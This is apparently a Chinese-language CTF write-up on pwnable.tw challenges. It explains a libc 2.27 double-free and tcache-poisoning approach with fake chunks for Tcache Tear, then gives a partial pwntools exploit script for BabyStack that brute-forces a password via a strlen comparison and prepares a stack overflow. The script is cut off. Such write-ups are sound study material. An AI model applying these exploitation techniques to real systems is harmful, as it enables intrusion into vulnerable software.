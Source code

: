 事实证明我根本就不知道怎么做fake chunk

libc 2.27，有double free。依稀记得某个版本前（后面发现是2.33前）double free的检查都较为宽松，试了一下发现果然如此。再加个tcache poisoning，很快就有了任意地址写

但是没有多少地址，菜单也没给leak选项。现在想想或许可以分配到stdout上用fsop泄漏？但当时我只想看看有什么办法能整出个unsorted bin里的chunk。就在这时我发现malloc_chunk里有个堆溢出，可以输入负数size，read时size会被转成无符号数。但是这题对堆块的操控有局限性，只能往最近分配到的chunk里写值；而且堆溢出到其他的chunk似乎没什么用？

name很可疑，为什么info函数会打印最开始输入的name？这时我就想，能不能free掉name，使其落入unsorted bin？于是开头输入name时我尝试伪造堆块结构`p64(0)+p64(0x521)`，然而free后仍然报错

我以为是我没有伪造出完整的fake chunk，在这卡了很久。后续看[wp](https://www.theflash2k.me/blog/writeups/pwnable.tw/tcache_tear)后发现是因为需要在fake chunk之后再放两个fake chunk。再参考 https://pwnable.tw/writeup/33/23230 会比较清晰：
```
chunk A B C（地址上的先后顺序）

当free A时，glibc检查B是否在用，因此会检查C的prev_inused位
如果B是空闲状态，glibc会unlink B，可能会触发consolidate将多个chunk合并（有时合并至top chunk）
如果B是占用状态，glibc会将其prev_inused位设为0，标记A此时是空闲的
```
另外，第一篇wp的图画错了。应该是：
```
| -- PREV_SIZE -- | --- SIZE ---- |
| ---- FD ----- | ----- BK ------ |
```
用户数据（DATA）和fd/bk字段是重合的。虽然脚本中flat的字段数量符合wp中画的图，但这是因为wp中有一个错误。攻击成功的原因根本不是里面说的“Unsorted Bin Attack”：“控制某个chunk的bk字段，进而通过将某个chunk free至unsorted bin来向bk-0x10处写入libc地址”。bk字段仅在空闲状态下的chunk有效，而这里伪造的是占用状态下的chunk，控制fd/bk字段根本就毫无意义。不过运行脚本会发现去掉那个地址的确不行，这是因为name和chunk是相邻的，脚本中布置bk字段的位置正好与chunk的地址重合。所谓的“设置bk”其实是在覆盖chunk的内容，从而将fake chunk free至unsorted bin

第二篇wp会更清楚一些

## BabyStack

为什么远程总是和我的环境不一样啊……

终于回到栈，不会大脑死机了。整体不难，调试一下就出来了：
```py
from pwn import *
libc=ELF("./libc_64.so.6")
p=process('./babystack_patched')
is_login=False
def login(password=''):
    global is_login
    p.sendlineafter("> ",'1')
    if not is_login:
        p.sendafter(":",password)
        if b'Failed' not in p.recvline():
            is_login=True
            return True
        return False
    else:
        is_login=False
def copy(payload):
    p.sendlineafter("> ",'3')
    p.sendafter(":",payload)
def brute_with_prefix(length,prefix=b''): #漏洞之一在于login比较密码时使用了strlen，导致可以逐字节爆破密码buffer里的内容
    res=b''
    for i in range(length):
        for j in range(1,256):
            if login(prefix+res+bytes([j])+b'\x00'):
                res+=bytes([j])
                login()
                break
    return res
def overflow(payload): #第二个漏洞在于，login时输入内容会保留在栈上。虽然copy只能输入0x3f个字节，但是这0x3f个字节与login的buffer有重叠的部分，导致strcpy时溢出
```